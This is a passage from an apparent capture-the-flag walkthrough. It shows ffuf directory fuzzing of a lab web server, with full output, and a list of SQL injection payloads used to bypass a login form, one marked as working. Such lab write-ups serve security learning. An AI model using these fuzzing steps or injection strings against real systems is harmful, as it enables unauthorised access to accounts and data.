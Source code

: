 - Checking what in the `note.txt` with a browser:
![](https://i.imgur.com/doOXOQG.png)

- enumerating the other http-server running on port `8082`:
![](https://i.imgur.com/x4HAdF6.png)

- Fuzzing for directories:

```bash
❯ ffuf -u http://10.10.144.47:8082/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 403 -e .txt,.bak,.php

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.144.47:8082/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt .bak .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

                        [Status: 200, Size: 11162, Words: 2014, Lines: 126, Duration: 178ms]
login                   [Status: 200, Size: 1605, Words: 352, Lines: 29, Duration: 153ms]
Login                   [Status: 200, Size: 1605, Words: 352, Lines: 29, Duration: 153ms]
static                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 159ms]
:: Progress: [18456/18456] :: Job [1/1] :: 280 req/sec :: Duration: [0:01:16] :: Errors: 0 ::
```

- visiting the `/login` directory with a browser:
![](https://i.imgur.com/ZRtTPEV.png)

- trying out default credentials it didn't work so i research ways to bypass `log-in` forms and found a post listing alot of `SQLI` payloads to bypass the form:
```sh
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'# 
admin' or '1'='1'/*
		admin"or 1=1 or ""="     <---- This payload works
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
```
